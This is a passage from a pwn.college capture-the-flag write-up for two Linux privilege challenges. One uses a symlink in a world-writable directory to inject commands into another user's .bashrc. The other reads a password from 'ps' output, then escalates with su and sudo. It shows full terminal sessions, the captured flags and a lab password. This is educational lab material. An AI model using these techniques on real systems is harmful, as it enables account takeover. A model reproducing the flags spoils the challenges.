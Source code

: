 ```bash
hacker@shenanigans~tricky-linking:~$ rm /tmp/collab/evil-commands.txt 
rm: remove write-protected regular file '/tmp/collab/evil-commands.txt'? y
hacker@shenanigans~tricky-linking:~$ ln -s /home/zardus/.bashrc /tmp/collab/evil-commands.txt
hacker@shenanigans~tricky-linking:~$ /challenge/victim 
Username: zardus
Password: ***********
zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@shenanigans~tricky-linking:~$ exit
logout
hacker@shenanigans~tricky-linking:~$ /challenge/victim 
Username: zardus
Password: ***********
pwn.college{4auLEF6sVFkKDr19oKmdCXg4GVR.0VM0EzNxwiMxkjNzEzW}
zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@shenanigans~tricky-linking:~$ exit
logout
```

## What I learned  
How to create symbolic links to compromise file integrity in world-writable directories.  

## References  
pwn college description  

---

# 5. Sniffing Process Arguments
Stealing sensitive arguments from process invocations  
## My solve  
**Flag:** `pwn.college{wUKZl4v9tSMTwNE1uicNdaZ5dU5.0FOzEzNxwiMxkjNzEzW}`  
I monitored process arguments for the automation script that zardus used, capturing the password he entered during execution, which allowed me to log into his account.  

```bash
hacker@shenanigans~sniffing-process-arguments:~$ ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.3  0.0   1056   640 ?        Ss   11:50   0:00 /sbin/docker-init -- /nix/var/nix/profiles/dojo-workspace/bin/dojo-init /run/dojo/bin/sleep 6h
root           7  0.1  0.0 231708  2560 ?        S    11:50   0:00 /run/dojo/bin/sleep 6h
root         147  0.0  0.0   5204  3520 ?        S    11:50   0:00 su -c auto.sh --user zardus --pass pw_2059719160 zardus
zardus       151  0.0  0.0   4132  2560 ?        Ss   11:50   0:00 /bin/bash /run/challenge/bin/auto.sh --user zardus --pass pw_2059719160
zardus       152  0.0  0.0 231708  2560 ?        S    11:50   0:00 sleep 6h
hacker       156  0.3  0.0 231576  3520 pts/0    Ss   11:50   0:00 /nix/store/0nxvi9r5ymdlr2p24rjj9qzyms72zld1-bash-interactive-5.2p37/bin/bash /run/dojo/bin/ssh-entrypoint
hacker       162  0.0  0.0 231940  4160 pts/0    S    11:50   0:00 /run/dojo/bin/bash --login
hacker       171  0.0  0.0 233600  3840 pts/0    R+   11:51   0:00 ps auxww
hacker@shenanigans~sniffing-process-arguments:~$ su zardus
Password: 
zardus@shenanigans~sniffing-process-arguments:/home/hacker$ sudo cat /flag 
pwn.college{wUKZl4v9tSMTwNE1uicNdaZ5dU5.0FOzEzNxwiMxkjNzEzW}
```

